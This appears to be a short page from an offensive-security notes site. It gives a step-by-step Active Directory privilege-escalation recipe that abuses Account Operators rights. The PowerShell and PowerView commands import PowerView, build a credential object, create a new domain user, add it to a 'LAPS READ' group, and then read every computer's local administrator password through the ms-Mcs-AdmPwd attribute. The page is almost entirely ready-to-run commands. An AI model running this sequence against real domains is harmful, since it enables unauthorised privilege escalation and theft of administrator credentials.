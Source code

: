 ```yaml
---
title: "Account Operators"
date: 2024-7-23
tags: ["Credential Dumping", "AddMember", "Account Operators", "Active Directory", "Windows", "LAPS"]
---
```


### Privesc #1: Create a new user account and add it to LAPS (Local Administrator Password Solution) group

{{< tab set1 tab1 active >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### 1. Import PowerView.ps1 

```console
. .\PowerView.ps1
```

#### 2. Create a cred object (runas) \[optional\]

```console
$username = '<DOMAIN>\<USER>'
```

```console
$password = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force
```

```console
$cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $password
```

#### 3. Create a new user password object

```console
$new_user_password = ConvertTo-SecureString '<NEW_USER_PASSWORD>' -AsPlainText -Force
```

#### 4. Create a new user account

```console
New-AdUser '<NEW_USER>' -enabled $true -accountpassword $new_user_password -Credential $cred
```

#### 5. Add the new user to LAPS group

```console
Add-DomainGroupMember -Identity 'LAPS READ' -Members '<NEW_USER>' -Credential $cred
```

#### 6. Read LAPS password

```console
# Run as the new user
Get-AdComputer -Filter * -Properties ms-Mcs-AdmPwd
```

{{< /tabcontent >}}
